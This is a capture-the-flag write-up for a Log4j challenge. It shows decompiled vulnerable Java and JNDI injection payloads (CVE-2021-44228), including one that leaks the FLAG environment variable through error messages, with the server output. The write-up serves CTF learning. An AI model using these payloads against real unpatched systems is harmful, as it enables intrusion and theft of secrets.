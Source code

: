 ## Log 4 Sanity Check

**Category:** Misc


### Description
ALARM ALARM

Download:
Log 4 sanity check-9afb8a24feb86db1.tar.xz (1.7 MiB)

Connection (mirrors):

```
nc 65.108.176.77 1337
```

### Solution

First of all let's connect to server and see what we will get in response:

```bash
$ nc 65.108.176.77 1337
What is your favourite CTF?
test
:(
```

We can see it will get an input from us and print some character. Looking in provided files, `Vuln.class` look interesting.
Opening this file with `bytecode viewer` will give us following source code:

```java
import org.apache.logging.log4j.Logger;
import java.util.Scanner;
import org.apache.logging.log4j.LogManager;

public class Vuln
{
    public static void main(final String[] array) {
        try {
            final Logger logger = LogManager.getLogger(Vuln.class);
            System.out.println("What is your favourite CTF?");
            final String next = new Scanner(System.in).next();
            if (next.toLowerCase().contains("dragon")) {
                System.out.println("<3");
                System.exit(0);
            }
            if (next.toLowerCase().contains("hxp")) {
                System.out.println(":)");
            }
            else {
                System.out.println(":(");
                logger.error("Wrong answer: {}", (Object)next);
            }
        }
        catch (Exception x) {
            System.err.println(x);
        }
    }
}
```

Also there is a hint provided in challenge. `https://www.bsi.bund.de/SharedDocs/Cybersicherheitswarnungen/DE/2021/2021-549032-10F2.pdf?__blob=publicationFile&v=6`.
Opening this link we will see that it mentioned to vulnerability `CVE-2021-44228` which is vulnerability in Apache Log4j library.

Knowing these, It is kind of straight forward to do what next. We need to use this vuln, and try to gain RCE with log4j vulnerability.

#### POC
To check if this vulnerability exists, will send following code:

```bash
$ nc 65.108.176.77 1337
What is your favourite CTF?
${jndi:ldap://127.0.0.1/test}
:(

2021-12-17 22:18:13,669 main WARN Error looking up JNDI resource [ldap://127.0.0.1/test]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:252)
	at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at java.naming/com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1616)
	at java.naming/com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2847)
....
```

Which is giving us exception which proof this vuln exists. Also as u can see it is giving connection refused.
So if we have a ldap server, and send request to it we can create a reverse shell using following guideline:

```https://sysdig.com/blog/exploit-detect-mitigate-log4j-cve/```

But I did tried different RCE Methods and tried to make a reverse shell with nc, did tried `curl`, `wget` and many other commands to get response in ldap server. but none works.

So tried to check `Dockerfile` see if there is anything useful in there. Checking Dockerfile, the last line seem to be interesting:

```bash
CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"
```

As u can see, `flag.txt` is copied in `FLAG` Environment variable. So maybe it's simpler than we thought. I tried to read flag in ldap request and finaly with following payload i could read the flag in error messages:

```bash
$ nc 65.108.176.77 1337
What is your favourite CTF?
${jndi:ldap://127.0.0.1/${env:FLAG}}
:(
2021-12-17 22:22:35,970 main WARN Error looking up JNDI resource [ldap://127.0.0.1/hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]

```

And as u can see, Flag is writen in exception errors.